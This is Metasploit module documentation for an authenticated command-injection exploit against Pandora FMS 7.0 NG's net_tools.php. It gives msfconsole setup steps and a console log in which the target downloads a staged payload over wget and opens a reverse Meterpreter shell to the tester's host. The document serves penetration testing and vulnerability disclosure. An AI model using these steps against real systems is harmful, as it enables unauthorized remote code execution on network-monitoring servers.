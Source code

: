 ## Vulnerable Application

Pandora FMS (for Pandora Flexible Monitoring System) is software for
monitoring computer networks. Pandora FMS allows monitoring in a visual
way the status and performance of several parameters from different
operating systems, servers, applications and hardware systems such
as firewalls, proxies, databases, web servers or routers.

This module exploits a vulnerability found in Pandora FMS 7.0 NG and lower.
The vulnerability exists on the `net_tools.php` component, due to the insecure
usage of the `system()` PHP function.

This module has been tested with [Pandora FMS 7.0 NG](https://sourceforge.net/projects/pandora/files/Pandora%20FMS%207.0NG/Final/Pandora_FMS_7.0_NG_VmWare_ovf.zip/download)

## Verification Steps

Launch metasploit and set the appropiate options:
>
> * [ ]  Start `msfconsole`
> * [ ]  `use exploit/linux/http/pandora_ping_cmd_exec`
> * [ ]  `set RHOSTS <rhosts>`
> * [ ]  `set LHOST <lhost>`
> * [ ]  `set USERNAME <username>`
> * [ ]  `set PASSWORD <password>`
> * [ ]  `exploit`

## Options

  **USERNAME**

  The username for Pandora FMS.

  **PASSWORD**

  The password for Pandora FMS.


## Setup

https://pandorafms.com/docs/index.php?title=Pandora:Documentation_en:Installing

## Scenarios

 Tested Pandora FMS 7.0 NG on CentOS 7.3.1611

```
msf5 > use exploit/linux/http/pandora_ping_cmd_exec
msf5 exploit(linux/http/pandora_ping_cmd_exec) > set RHOSTS 192.168.215.128
RHOSTS => 192.168.215.128
msf5 exploit(linux/http/pandora_ping_cmd_exec) > set RHOSTS 192.168.1.12
RHOSTS => 192.168.1.12
msf5 exploit(linux/http/pandora_ping_cmd_exec) > set LHOST 192.168.1.5
LHOST => 192.168.1.5
msf5 exploit(linux/http/pandora_ping_cmd_exec) > set USERNAME admin
USERNAME => admin
msf5 exploit(linux/http/pandora_ping_cmd_exec) > set PASSWORD pandora
PASSWORD => pandora
msf5 exploit(linux/http/pandora_ping_cmd_exec) > exploit

[*] Started reverse TCP handler on 192.168.1.5:4444
[*] Exploiting...
[*] Using URL: http://0.0.0.0:8080/ksdtisFA
[*] Local IP: http://192.168.1.5:8080/ksdtisFA
[*] Attempting to authenticate using (admin:pandora)
[+] Successfully authenticated
[*] Attempting to retrieve session cookie
[+] Successfully retrieved session cookie: PHPSESSID=knoo75fs75l00ec74atu8ic3d0; clippy=deleted; clippy=deleted;
[*] Client 192.168.1.12 (Wget/1.14 (linux-gnu)) requested /ksdtisFA
[*] Sending payload to 192.168.1.12 (Wget/1.14 (linux-gnu))
[*] Sending stage (989416 bytes) to 192.168.1.12
[*] Meterpreter session 1 opened (192.168.1.5:4444 -> 192.168.1.12:54784) at 2020-03-09 15:38:25 +0300

[*] Command Stager progress - 131.25% done (147/112 bytes)
[*] Server stopped.

meterpreter >
```
